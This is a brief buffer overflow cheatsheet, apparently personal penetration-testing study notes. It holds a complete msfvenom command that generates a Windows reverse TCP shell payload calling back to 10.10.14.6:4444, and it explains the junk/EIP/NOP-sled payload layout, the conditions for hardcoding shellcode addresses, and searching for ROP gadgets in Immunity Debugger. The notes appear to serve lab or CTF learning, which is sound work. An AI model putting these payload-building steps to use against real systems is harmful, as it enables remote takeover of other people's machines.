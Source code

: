 # Buffer Overflow cheatsheet

## Generating Shellcode

```text
msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

## Payload Format

* payload = junk + shell\_addr + \(nops + shellcode\)
  * junk : is offset before the EIP overwritten.
  * shell\_addr : is the address which we overwrite on the EIP register.
  * \(nops + shellcode\) : actual shell code address, we need to include nops for smooth execution of shellcode. nops are part of shellcode

## Computing shell\_addr 

1\) Hardcoding shellcode address

* Requirements
  * We need ASLR disabled. address randomization for stack memory
  * We need no null byte in hardcoded address of \(nops + shellcode\).
  * We need the stack executable.

2\) If shellcode address contain null byte.

* We need to use ROP gadgets to solve it.
* Requirements
  * We need ASLR disabled. address randomization on stack
  * We need the stack executable.
  * ROP objects need to be present which do not have null byte in its address.

## Finding ROP in windows immunity debugger

* Right click on the command box -&gt; Search for -&gt; Sequence of commands

```text
POP ESP
POP ESP
RET
```

* "ctrl + l" to find the next search result.

## Finding ROP in linux

* \(Refer linux exploit development\)

